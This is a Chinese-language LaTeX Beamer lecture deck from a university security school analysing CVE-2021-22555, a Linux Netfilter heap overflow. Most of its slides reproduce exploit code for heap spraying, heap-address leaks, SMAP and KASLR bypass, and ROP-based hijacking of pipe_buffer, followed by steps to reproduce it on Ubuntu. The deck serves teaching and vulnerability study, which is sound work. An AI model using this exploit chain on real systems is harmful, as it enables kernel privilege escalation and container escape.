\documentclass[xcolor=table]{beamer}
\usepackage{ctex, hyperref}
\usepackage{calligra}
\usepackage[T1]{fontenc}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\usepackage{listings}
% c++模板
\definecolor{commentColor}{RGB}{53,129,34}
\definecolor{keywordColor}{RGB}{172, 62, 158}
\definecolor{stringColor}{RGB}{194, 62, 42}
\definecolor{preprocessorColor}{RGB}{114, 75, 48}
\definecolor{characterColor}{RGB}{31, 53, 207}
\definecolor{numberColor}{RGB}{166, 166, 166}
\definecolor{oglobalColor}{RGB}{97, 64, 154}
\definecolor{globalColor}{RGB}{89, 127, 134}
\definecolor{functionColor}{RGB}{56,36,124}

\RequirePackage{fontspec}
\RequirePackage[T1]{fontenc}
\RequirePackage[scaled=0.85]{beramono}
\newfontfamily\sff{SFMono-Regular}

\lstset{
language=C,
basicstyle=\ttfamily,
keywordstyle=\color{keywordColor}\ttfamily\bfseries,
commentstyle=\color{commentColor}\ttfamily,
stringstyle=\color{stringColor}\ttfamily,
showstringspaces=false,
columns=flexible,
numbers=left,
numberstyle=\color{numberColor}\footnotesize\sf,
%morecomment=[s][\color{stringColor}\ttfamily]{<}{>},
morecomment=[s][\color{characterColor}\ttfamily]{'}{'},
moredelim        = [s][\color{commentColor}]{/*}{*/},
keywords=[2]{std, cout, cin},
keywordstyle = [2]{\color{oglobalColor}\ttfamily},
keywords=[3]{endl, printf, scanf, setw, setfill, setbase, setprecision, time, ctime, rand},
keywordstyle = [3]{\color{functionColor}\ttfamily},
keywords=[4]{\#include},
keywordstyle =[4]{\color{preprocessorColor}\ttfamily},
literate={
    {<<}{{{\color{black}<<}}}1
    {>>}{{{\color{black}>>}}}1
    {0}{{{\color{characterColor}0}}}1
    {1}{{{\color{characterColor}1}}}1
    {2}{{{\color{characterColor}2}}}1
    {3}{{{\color{characterColor}3}}}1
    {4}{{{\color{characterColor}4}}}1
    {5}{{{\color{characterColor}5}}}1
    {6}{{{\color{characterColor}6}}}1
    {7}{{{\color{characterColor}7}}}1
    {8}{{{\color{characterColor}8}}}1
    {9}{{{\color{characterColor}9}}}1},
tabsize=4
}


% 代码格式和颜色定义
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{comment}{rgb}{0.56,0.64,0.68}
\lstset{
  frame=single,
  aboveskip=3mm,
  belowskip=3mm,
  xleftmargin=2em,
  belowcaptionskip=1\baselineskip,
  frameround=tttt,
  xrightmargin=\parindent,
  %showstringspaces=false,
  %columns=flexible,
  framerule=1pt,
  rulecolor=\color{gray!35},
  backgroundcolor=\color{gray!5},
  %basicstyle={\small\ttfamily},
  %numbers=none,
  %numberstyle=\tiny\color{gray},
  numberstyle=\tiny\color{gray},            % 设置行号字体大小
  %keywordstyle=\color{blue},
  %commentstyle=\color{comment},
  %stringstyle=\color{dkgreen},
  breaklines=true,
  breakatwhitespace=true,
  %tabsize=2,
}

\lstdefinestyle{customasm}{
    belowcaptionskip=1\baselineskip,
    %frame=single, 
    %frameround=tttt,
    xleftmargin=\parindent,
    language=[x86masm]Assembler,
    basicstyle=\footnotesize\ttfamily,
    commentstyle=\itshape\color{green!60!black},
    keywordstyle=\color{blue!80!black},
    identifierstyle=\color{red!80!black},
    tabsize=4,
    numbers=left,
    numbersep=8pt,
    stepnumber=1,
    numberstyle=\tiny\color{gray}, 
    columns = fullflexible,
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%




\author{彭雨昂}
\title{题目}

\subtitle{题目题目}

\institute{武汉大学国家网络安全学院}
\date{\today}
\usepackage{WHU}

\begin{document}

%%%%%%%%%%%%%%%%% 首页 %%%%%%%%%%%%%%%%%
\kaishu
\begin{frame}
	\titlepage
	\begin{figure}[htpb]
		\begin{center}
			
\includegraphics[width=0.2\linewidth]{pic/whulogo.eps}
		\end{center}
	\end{figure}
\end{frame}
\begin{frame}
\tableofcontents[sectionstyle=show,subsectionstyle=show/shaded/hide,subsubsectionstyle=show/shaded/hide]
\end{frame}
%%%%%%%%%%%%%%%%% 首页 %%%%%%%%%%%%%%%%%


\section{漏洞背景}

\begin{frame}
\small {七月中旬,CVE-2021-22555被公开披露,该漏洞在KCTF中被用于攻击kubernetes pod容器实现虚拟化逃逸。该漏洞的产生是由于Linux Netfilter模块在实现IPT\_SO\_SET\_REPLACE(或IP6T\_SO\_SET\_REPLACE)setsockopt时存在堆越界写入漏洞,导致本地用户可以通过用户命名空间获得\textbf{root权限进而实现虚拟化逃逸}。}

\footnotesize{\begin{itemize}
	\item  漏洞触发:该漏洞自Linux内核v2.6.19-rc1在net/netfilter/xtables.c中引入,当IPT\_SO\_SET\_REPLACE或者IP6T\_SO\_SET\_REPLACE在兼容模式下调用时,内核结构需要从32位转换为64位,由于错误计算转换大小,,致在调用xt\_compat\_target\_from\_user()函数时越界写入一些0字节,进而导致破坏相邻堆块结构。
	\item 可利用性:可以通过部分覆盖结构的m\_list->next指针msg,msg并实现UAF来利用此漏洞。这足以在绕过KASLR,SMAP和SMEP的同时获得内核代码执行。
\end{itemize}}

\end{frame}



\section{漏洞分析}


\begin{frame}[fragile]

\footnotesize\begin{itemize}
	\item 程序漏洞存在与内核源码/kernel/net/netfilter/x\_tables 中的 xt\_compat\_target\_from\_user 函数中
	\item 程序逻辑为构造8字节对齐缓冲区,此处 target->targetsize 用来指定t->data实际使用长度(有可能非8字节对齐),并将不足8字节的剩余空间清空
	\item 在实际实现过程中,分配t->data缓冲区阶段,并没有考虑8字节对齐问题(直接分配实际使用大小)
	\item 如果target->targetsize并非8字节对齐,此处将溢出覆盖pad字节0
\end{itemize}


\tiny\begin{lstlisting}[language=c]
void xt_compat_target_from_user(struct xt_entry_target *t, void **dstptr, unsigned int *size) {
    const struct xt_target *target = t->u.kernel.target;
    struct compat_xt_entry_target *ct = (struct compat_xt_entry_target *) t;
    int pad, off = xt_compat_target_offset(target);
    // ...
    pad = XT_ALIGN(target->targetsize) - target->targetsize;
    if (pad > 0)
        memset(t->data + target->targetsize, 0, pad);
    // ...
}
\end{lstlisting}

\end{frame}


\subsection{前提知识}

\begin{frame}[fragile]
\frametitle{sendmsg堆喷}

\small{内核使用alloc\_msg函数为用户开辟消息缓冲区,其函数原型为}

\tiny\begin{lstlisting}[language=c]
// len为用户消息长度
static struct msg_msg *alloc_msg(size_t len)
\end{lstlisting}

\small{该函数做的事情为:}

\footnotesize\begin{itemize}
	\item 比较用户消息长度与DATALEN\_MSG(DATALEN\_MSG+sizeof(struct msg\_msg) == one\_page\_size)大小,取小值
	\item 为消息队列开辟合适空间,这里相当于使用了一个可变长度数组用于存储用户数据,后面讲到msg\_msg结构体会详细解释
	\item 在以上流程中存在一种特殊情况,即如果用户待发送消息过长,大于DATALEN\_MSG,那么在这里会为msg->next开辟空间,用于存储剩余消息,不断循环,直至可以容纳全部消息
	\item 指向消息队列中的另一条消息
	\item 如果当前msg\_msg不足以容纳全部的用户消息,可以使用next链表管理用户剩余消息
\end{itemize}


\end{frame}



\subsection{初步利用}

\begin{frame}[fragile]
\frametitle{创建4096个消息队列}
\small{首先,我们使用 msgget() 初始化了很多消息队列(在本例中是 4096 个)。消息队列数目并没有限制,但是越多,exp稳定性会越强}

\tiny\begin{lstlisting}[language=c]
for (int i = 0; i < NUM_MSQIDS; i++) {
    if ((msqid[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666)) < 0) {
        perror("[-] msgget");
        goto err_no_rmid;
    }
}
\end{lstlisting}


\end{frame}


\begin{frame}[fragile]
\frametitle{为主消息内存空间填充数据}

\begin{columns}[c]

\column{0.8\textwidth}
\small{然后,我们使用 msgsnd() 为每个消息队列发送一条大小为 4096(包括 struct msg\_msg 标头)的消息(将其称为主消息)。并为主消息空间填充两个标志位}

\footnotesize\begin{itemize}
	\item mtext[0] = MSG\_TAG:用于标识该内存区域为堆喷控制
	\item mtext[4] = i:用于标识该内存区id,为后面识别内存区服务
\end{itemize}

\small{主消息空间大小为1024bytes,标识每个msg\_msg结构体占据一个内存页,这里主要是希望得到一个整齐的空间布局,使得msg\_msg结构体之间尽可能相邻。在满足以上条件后将会得到如右图所示内存布局。}

\column{0.2\textwidth}
\begin{figure}[H]
\centering

\includegraphics[width=1\textwidth]{pic/1}% [width=0.8\textwidth]
\end{figure}
	
\end{columns}

\end{frame}


\begin{frame}[fragile]
\frametitle{为辅助消息内存空间填充数据}

\begin{columns}[c]
\column{0.6\textwidth}
\small{接下来为每个消息队列添加辅助消息(即为msg\_msg->next开辟空间),添加与同消息队列中主消息相同的标识,得到如右图所示内存布局。}

\tiny\begin{lstlisting}[language=c]
printf("[*] Spraying secondary messages...\n");
for (int i = 0; i < NUM_MSQIDS; i++) {
    memset(&msg_secondary, 0, sizeof(msg_secondary));
    *(int *) &msg_secondary.mtext[0] = MSG_TAG;
    *(int *) &msg_secondary.mtext[4] = i;
    if (write_msg(msqid[i], &msg_secondary, sizeof(msg_secondary), MTYPE_SECONDARY) < 0)
        goto err_rmid;
}
\end{lstlisting}

\column{0.4\textwidth}
\begin{figure}[H]
\centering

\includegraphics[width=\textwidth]{pic/2}% [width=0.8\textwidth]
\end{figure}

	
\end{columns}

\end{frame}


\begin{frame}[fragile]
\frametitle{释放部分主消息}

\small{当消息被暂存时需要内核开辟缓冲区保存消息,当消息被接收后,缓冲区失去价值,会被释放。

在原内存布局中释放一些主消息,可以获得相应的4096bytes内存空洞,如果某个内存空洞被xt\_table\_info结构体获得,就可以利用溢出2字节0 的特性进行下一步利用。}

\tiny\begin{lstlisting}[language=c]
    int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {
        if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, 0) < 0) {
            perror("[-] msgrcv");
            return -1;
        }
        return 0;
    }

    printf("[*] Creating holes in primary messages...\n");
    for (int i = HOLE_STEP; i < NUM_MSQIDS; i += HOLE_STEP) {
        if (read_msg(msqid[i], &msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) <
            0)
            goto err_rmid;
    }
\end{lstlisting}


\end{frame}

\begin{frame}[fragile]
\frametitle{利用漏洞特性}

\begin{columns}[c]

\column{0.6\textwidth}
\small{使用2字节溢出将相邻的msg\_msg结构体中msg\_msg->list\_head->next末尾两字节覆盖为0, 使得该主消息的辅助消息指向其他主消息的辅助消息。}

\tiny\begin{lstlisting}[language=c]
    printf("[*] Triggering out-of-bounds write...\n");
    if (trigger_oob_write(s) < 0)
        goto err_rmid;
\end{lstlisting}

\small{\textbf{效果:}某处内存空间,被两个主消息引用。内存布局如右图所示。}

\column{0.4\textwidth}
\begin{figure}[H]
\centering

\includegraphics[width=\textwidth]{pic/4}% [width=0.8\textwidth]
\end{figure}


\end{columns}
\end{frame}

\begin{frame}[fragile]
\frametitle{定位发生错误的消息队列索引}
\small{在填充消息时,为每个主消息与辅助消息填充了消息队列标识,那么这里直接查看消息内存,如果主消息与辅助消息队列标识不相同,即可断定该主消息msg\_msg->list\_head->next成员被修改

如何保证遍历消息时,主消息与辅助消息不会被释放:接收消息时使用MSG\_COPY标志。}

\tiny\begin{lstlisting}[language=c]
    int peek_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {
        if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, MSG_COPY | IPC_NOWAIT) <
            0) {
            perror("[-] msgrcv");
            return -1;
        }
        return 0;
    }
\end{lstlisting}

\end{frame}


\begin{frame}[fragile]
\frametitle{定位发生错误的消息队列索引}


\tiny\begin{lstlisting}[language=c]
    printf("[*] Searching for corrupted primary message...\n");
    for (int i = 0; i < NUM_MSQIDS; i++) {
        if (i != 0 && (i % HOLE_STEP) == 0)
            continue;
        if (peek_msg(msqid[i], &msg_secondary, sizeof(msg_secondary), 1) < 0)
            goto err_no_rmid;
        if (*(int *) &msg_secondary.mtext[0] != MSG_TAG) {
            printf("[-] Error could not corrupt any primary message.\n");
            goto err_no_rmid;
        }
        if (*(int *) &msg_secondary.mtext[4] != i) {
            fake_idx = i;
            real_idx = *(int *) &msg_secondary.mtext[4];
            break;
        }
    }
    if (fake_idx == -1 && real_idx == -1) {
        printf("[-] Error could not corrupt any primary message.\n");
        goto err_no_rmid;
    }
    // fake_idx's primary message has a corrupted next pointer; wrongly
    // pointing to real_idx's secondary message.
    printf("[+] fake_idx: %x\n", fake_idx);
    printf("[+] real_idx: %x\n", real_idx);
\end{lstlisting}


\end{frame}

\begin{frame}
\frametitle{使用可控范围更广的结构体占据msg\_msg}

\small{正常来说,下一步应该是使用可控范围更广的结构体(skb)与带有函数指针的结构体同时占据msg\_msg,然后劫持函数指针。所以利用流程应该如下:}

\footnotesize\begin{enumerate}
	\item 主消息1放弃辅助消息msg\_msg, skb占据msg\_msg
	\item 主消息2放弃辅助消息msg\_msg, victim\_struct占据msg\_msg
	\item 此时skb与victim\_struct占据同一内存空间
	\item 修改skb劫持victim\_struct内函数指针
	\item 触发victim\_struct函数指针,完成流程控制
\end{enumerate}

\small{但是注意到当实现步骤2时,msg\_msg已经被破坏,且skb无法伪造msg\_msg->list\_head->next成员,如果此时主消息2释放msg\_msg,辅助消息会被从循环链表msg\_msg->list\_head中去除,也就是说此阶段会涉及到对于msg\_msg->list\_head->next的读写,因为存在smap在用户态伪造该字段无意义,内核在此处会检查到smap错误,利用失败,所以接下来需要绕过SMAP}

\end{frame}



\subsection{绕过SMAP}

\begin{frame}[fragile]
\frametitle{释放被重复引用的辅助消息}

\tiny\begin{lstlisting}[language=c]
    printf("[*] Freeing real secondary message...\n");
    if (read_msg(msqid[real_idx], &msg_secondary, sizeof(msg_secondary), MTYPE_SECONDARY) < 0)
        goto err_rmid;
\end{lstlisting}

\begin{figure}[H]
\centering

\includegraphics[width=0.5\textwidth]{pic/5}% [width=0.8\textwidth]
\end{figure}


\end{frame}


\begin{frame}[fragile]
\frametitle{skb堆喷并伪造辅助消息}

\begin{columns}[c]

\column{0.6\textwidth}

\small{伪造辅助消息的时候需要着重关注m\_ts字段,它表示消息长度}
\tiny\begin{lstlisting}[language=c]
    void build_msg_msg(struct msg_msg *msg, uint64_t m_list_next,
                       uint64_t m_list_prev, uint64_t m_ts, uint64_t next) {
        msg->m_list_next = m_list_next;
        msg->m_list_prev = m_list_prev;
        msg->m_type = MTYPE_FAKE;
        msg->m_ts = m_ts;
        msg->next = next;
        msg->security = 0;
    }
    int spray_skbuff(int ss[NUM_SOCKETS][2], const void *buf, size_t size) {
        for (int i = 0; i < NUM_SOCKETS; i++) {
            for (int j = 0; j < NUM_SKBUFFS; j++) {
                if (write(ss[i][0], buf, size) < 0) {
                    perror("[-] write");
                    return -1;
                }
            }
        }
        return 0;
    }
\end{lstlisting}


\column{0.4\textwidth}

\begin{figure}[H]
\centering

\includegraphics[width=\textwidth]{pic/6}% [width=0.8\textwidth]
\end{figure}

	
\end{columns}




\end{frame}

\begin{frame}[fragile]
\frametitle{skb堆喷并伪造辅助消息}
\tiny\begin{lstlisting}[language=c]
    // Reclaim the previously freed secondary message with a fake msg_msg of
    // maximum possible size.
    printf("[*] Spraying fake secondary messages...\n");
    memset(secondary_buf, 0, sizeof(secondary_buf));
    build_msg_msg((void *) secondary_buf, 0x41414141, 0x42424242,
                  PAGE_SIZE - MSG_MSG_SIZE, 0);
    if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
        goto err_rmid;
\end{lstlisting}

\end{frame}



\begin{frame}[fragile]
\frametitle{泄露相邻辅助消息->主消息的堆地址}

\begin{columns}[c]
\column{0.5\textwidth}
\footnotesize\begin{enumerate}
	\item 在skb堆喷并伪造辅助消息中发现m\_ts可控,也就是说我们可以通过控制m\_ts让内核将与该辅助消息相邻的辅助消息纳入消息缓冲区中,当读取该伪造辅助消息时,可以将相邻辅助消息的消息头泄露出来。
	\item 泄露相邻辅助的哪个成员:辅助消息的msg\_msg->list\_head->next指向主消息即内核堆地址,所以可以作为泄露对象。
	\item 至此成功泄露相邻辅助消息->主消息的堆地址。
\end{enumerate}

\column{0.5\textwidth}
\tiny\begin{lstlisting}[language=c]
    // Use the fake secondary message to read out-of-bounds.
    printf("[*] Leaking adjacent secondary message...\n");
    if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
        goto err_rmid;
    // Check if the leak is valid.
    if (*(int *) &msg_fake.mtext[SECONDARY_SIZE] != MSG_TAG) {
        printf("[-] Error could not leak adjacent secondary message.\n");
        goto err_rmid;
    }
    // The secondary message contains a pointer to the primary message.
    msg = (struct msg_msg *) &msg_fake.mtext[SECONDARY_SIZE - MSG_MSG_SIZE];
    kheap_addr = msg->m_list_next;
    if (kheap_addr & (PRIMARY_SIZE - 1))
        kheap_addr = msg->m_list_prev;
    printf("[+] kheap_addr: %\"PRIx64\"\n", kheap_addr);
\end{lstlisting}

	
\end{columns}




\end{frame}



\begin{frame}[fragile]
\frametitle{泄露fake辅助消息的堆地址}

\footnotesize\begin{enumerate}
	\item 以上可以获得与fake辅助消息相邻辅助消息->主消息的堆地址,将此地址填充为msg\_msg->next,释放skb后,重新填充,那么此时fake辅助消息的msg\_msg->next为相邻辅助消息->主消息的堆地址,内核会认为该主消息为fake辅助消息的一部分(如果msg\_msg不足以容纳全部消息则为msg\_msg->next开辟空间后继续容纳剩余消息)
	\item 一次性读取大量fake辅助消息,内核会从msg\_msg->next中继续读取消息,由此实现对于主消息头的泄露,主消息头中的msg\_msg->list\_head->next指向与之对应的辅助消息,即与fake辅助消息相邻的辅助消息,该内存减去1024(辅助消息结构体大小)后,得到fake辅助消息真实地址
	\item 至此,获得fake辅助消息真实地址,此时再次释放skb,并将fake辅助消息真实地址填充为msg\_msg->list\_head->next,即可在释放此辅助消息时绕过smap
\end{enumerate}


\end{frame}

\begin{frame}[fragile]
\frametitle{泄露fake辅助消息的堆地址}
\vspace{-0.2cm}
\tiny\begin{lstlisting}[language=c]
    printf("[*] Freeing fake secondary messages...\n");
    free_skbuff(ss, secondary_buf, sizeof(secondary_buf));
    // Put kheap_addr at next to leak its content. Assumes zero bytes before
    // kheap_addr.
    printf("[*] Spraying fake secondary messages...\n");
    memset(secondary_buf, 0, sizeof(secondary_buf));
    build_msg_msg((void *) secondary_buf, 0x41414141, 0x42424242,
                  sizeof(msg_fake.mtext), kheap_addr - MSG_MSGSEG_SIZE);
    if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
        goto err_rmid;
    // Use the fake secondary message to read from kheap_addr.
    printf("[*] Leaking primary message...\n");
    if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
        goto err_rmid;
    // Check if the leak is valid.
    if (*(int *) &msg_fake.mtext[PAGE_SIZE] != MSG_TAG) {
        printf("[-] Error could not leak primary message.\n");
        goto err_rmid;
    }
    // The primary message contains a pointer to the secondary message.
    msg = (struct msg_msg *) &msg_fake.mtext[PAGE_SIZE - MSG_MSG_SIZE];
    kheap_addr = msg->m_list_next;
    if (kheap_addr & (SECONDARY_SIZE - 1))
        kheap_addr = msg->m_list_prev;
    // Calculate the address of the fake secondary message.
    kheap_addr -= SECONDARY_SIZE;
    printf("[+] kheap_addr: %\"PRIx64\"\n", kheap_addr);
\end{lstlisting}

\end{frame}


\subsection{绕过KASLR}

\begin{frame}[fragile]

\footnotesize\begin{enumerate}
	\item 当写入管道时,会填充 struct pipe\_buffer。更重要的是,ops 将指向位于 .data 段中的静态结构 anon\_pipe\_buf\_ops:
	\tiny\begin{lstlisting}[language=c]
    // https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/fs/pipe.c
    static const struct pipe_buf_operations anon_pipe_buf_ops = {
            .release    = anon_pipe_buf_release,
            .try_steal  = anon_pipe_buf_try_steal,
            .get        = generic_pipe_buf_get,
    };
\end{lstlisting}
	\footnotesize\item 由于 .data 段和 .text 段之间的差异总是相同的,因此拥有 anon\_pipe\_buf\_ops 可以让我们计算内核基址。
\end{enumerate}


\end{frame}

\begin{frame}[fragile]

\small 我们喷射了很多 struct pipe\_buffer 对象并回收了老的 struct sk\_buff 数据缓冲区的位置:

\begin{figure}[H]
\centering

\includegraphics[width=0.4\textwidth]{pic/9}% [width=0.8\textwidth]
\end{figure}

\small 由于我们仍然有来自 struct sk\_buff 的引用,我们可以读取它的数据缓冲区,泄漏 struct pipe\_buffer 的内容并揭示 anon\_pipe\_buf\_ops 的地址:

\tiny\begin{lstlisting}
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000
\end{lstlisting}


\end{frame}

\begin{frame}
\small 有了这些信息,我们现在可以找到 JOP/ROP 小工具。请注意,当从 unix 套接字读取时,我们实际上也释放了它的缓冲区:
\begin{figure}[H]
\centering

\includegraphics[width=0.7\textwidth]{pic/9}% [width=0.8\textwidth]
\end{figure}
\end{frame}



\subsection{控制程序执行流程}

\begin{frame}[fragile]
\begin{columns}
\column{0.3\textwidth}
\small 此时skb与pipe\_buffer占据同一块内存空间,重新构造skb,劫持pipe\_buffer->ops至本内存空间,伪造pipe\_buffer->ops->release,为第一个ROPgadget地址,实现执行流程控制


\column{0.7\textwidth}
\tiny\begin{lstlisting}[language=c]
    printf("[+] STAGE 4: Kernel code execution\n");
    printf("[*] Spraying fake pipe_buffer objects...\n");
    memset(secondary_buf, 0, sizeof(secondary_buf));
    buf = (struct pipe_buffer *) &secondary_buf;
    buf->ops = kheap_addr + 0x290;
    ops = (struct pipe_buf_operations *) &secondary_buf[0x290];
    #ifdef KERNEL_COS_5_4_89
    // RAX points to &buf->ops.
    // RCX points to &buf.
    ops->release = kbase_addr + PUSH_RAX_JMP_QWORD_PTR_RCX;
    #elif KERNEL_UBUNTU_5_8_0_48
    // RSI points to &buf.
    ops->release = kbase_addr + PUSH_RSI_JMP_QWORD_PTR_RSI_39;
    #endif
    build_krop(secondary_buf, kbase_addr, kheap_addr + 0x2B0);
    if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
        goto err_rmid;
    // Trigger pipe_release().
    printf("[*] Releasing pipe_buffer objects...\n");
    for (int i = 0; i < NUM_PIPEFDS; i++) {
        if (close(pipefd[i][0]) < 0) {
            perror("[-] close");
            goto err_rmid;
        }
        if (close(pipefd[i][1]) < 0) {
            perror("[-] close");
            goto err_rmid;
        }
    }
\end{lstlisting}


\end{columns}


\end{frame}


\section{漏洞复现}

\begin{frame}[fragile]

\begin{columns}
\column{0.7\textwidth}
\small\textbf{步骤}

\begin{itemize}
	\footnotesize\item 更换系统内核为5.8.0-48-generic
	\begin{itemize}
		\footnotesize\item 下载内核镜像、模块
		
\tiny\begin{lstlisting}
sudo apt install linux-headers-5.8.0-48-generic\
linux-image-5.8.0-48-generic\
linux-modules-5.8.0-48-generic\
linux-modules-extra-5.8.0-48-generic
\end{lstlisting}
		
		\footnotesize\item 打开配置文件sudo vim /etc/default/grub
		\footnotesize\item 修改配置GRUB\_DEFAULT=0为
\tiny\begin{lstlisting}
GRUB_DEFAULT="Advanced options for Ubuntu>Ubuntu, with Linux 5.8.0-48-genetic"
\end{lstlisting}
		\footnotesize\item 保存更新并重启系统
\tiny\begin{lstlisting}
sudo update-grub
sudo reboot
\end{lstlisting}
	\end{itemize}
\end{itemize}
	

\column{0.3\textwidth}
\begin{itemize}
	\footnotesize\item 编译exp
\tiny\begin{lstlisting}
gcc -m32 --static -o exp exp.c
\end{lstlisting}
	\footnotesize\item 运行exp进行内核提权
\end{itemize}

\small\textbf{系统环境}

\footnotesize\begin{itemize}
	\item ubuntu 20.04
	\item kernel 5.8.0-48
\end{itemize}


\end{columns}





\end{frame}


\begin{frame}
\frametitle{运行结果}

\begin{columns}
\column{0.5\textwidth}
\begin{figure}[H]
\centering
